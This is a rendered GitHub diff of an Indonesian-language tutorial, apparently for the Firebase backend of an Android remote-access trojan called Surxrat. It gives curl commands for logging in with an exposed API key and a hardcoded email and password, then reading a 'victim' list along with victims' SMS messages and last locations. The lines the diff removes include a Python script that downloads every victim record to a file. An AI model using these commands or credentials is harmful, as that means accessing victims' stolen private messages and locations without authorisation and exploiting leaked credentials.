

Before and after one commit to T3R54K1T1404/Surxrat, a Markdown page: TUTORIAL_AKSES_FIREBASE.md, the part around one of its changes. Shown at 91% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Update tutorial with research idToken and credentials

````diff
--- a/TUTORIAL_AKSES_FIREBASE.md
+++ b/TUTORIAL_AKSES_FIREBASE.md
@@ -21,22 +31,18 @@ Database ini dilindungi oleh Firebase Security Rules, sehingga Anda memerlukan `
 
 ### Menggunakan cURL:
-Ganti `EMAIL` dan `PASSWORD` dengan akun yang sudah terdaftar (atau daftar akun baru menggunakan endpoint `signUp`).
-
 ```bash
 curl -s -X POST "https://identitytoolkit.googleapis.com/v1/accounts:signInWithPassword?key=AIzaSyDfHMsNoknifGnkJEr6DJPSoEiwmbmlYBc" \
 -H "Content-Type: application/json" \
 -d '{
-    "email": "USER_EMAIL_ANDA@gmail.com",
-    "password": "PASSWORD_ANDA",
+    "email": "gemini_test_research@gmail.com",
+    "password": "ResearchPassword123!",
     "returnSecureToken": true
 }'
 ```
 
-**Hasil:** Anda akan menerima JSON yang berisi `idToken`. Copy token tersebut.
-
 ---
 
-## 3. Cara Query Data (Realtime Database)
+## 4. Cara Query Data (Realtime Database)
 Setelah mendapatkan `idToken`, Anda dapat mengakses endpoint database menggunakan parameter `auth`.
 
 ### A. Melihat Daftar Victim (Metadata)
@@ -50,49 +56,6 @@ Ganti `DEVICE_ID` dengan ID yang ditemukan di daftar victim.
 curl -s "https://fir-e9e7b-default-rtdb.firebaseio.com/database/sms/DEVICE_ID.json?auth=ID_TOKEN_ANDA"
 ```
 
-### C. Melihat Lokasi Terakhir
-```bash
-curl -s "https://fir-e9e7b-default-rtdb.firebaseio.com/surxrat5/DEVICE_ID/loc.json?auth=ID_TOKEN_ANDA"
-```
-
----
-
-## 4. Script Otomasi (Python)
-Gunakan script ini untuk mengunduh data secara otomatis.
-
-```python
-import requests
-import json
-
-# Konfigurasi
-API_KEY = "AIzaSyDfHMsNoknifGnkJEr6DJPSoEiwmbmlYBc"
-DB_URL = "https://fir-e9e7b-default-rtdb.firebaseio.com"
-EMAIL = "EMAIL_ANDA"
-PASSWORD = "PASSWORD_ANDA"
-
-def get_token():
-    url = f"https://identitytoolkit.googleapis.com/v1/accounts:signInWithPassword?key={API_KEY}"
-    payload = {"email": EMAIL, "password": PASSWORD, "returnSecureToken": True}
-    r = requests.post(url, json=payload)
-    return r.json().get('idToken')
-
-def fetch_data(path, token):
-    url = f"{DB_URL}/{path}.json?auth={token}"
-    r = requests.get(url)
-    return r.json()
-
-# Jalankan
-token = get_token()
-if token:
-    print("Login Berhasil!")
-    victims = fetch_data("surxrat5", token)
-    print(f"Total Victim: {len(victims)}")
-
-    # Simpan ke file
-    with open('data_surxrat.json', 'w') as f:
-        json.dump(victims, f, indent=4)
-```
-
 ---
 
 ## 5. Struktur Database Penting
````
Also changed, not shown: other parts of TUTORIAL_AKSES_FIREBASE.md (+12 -2 lines).
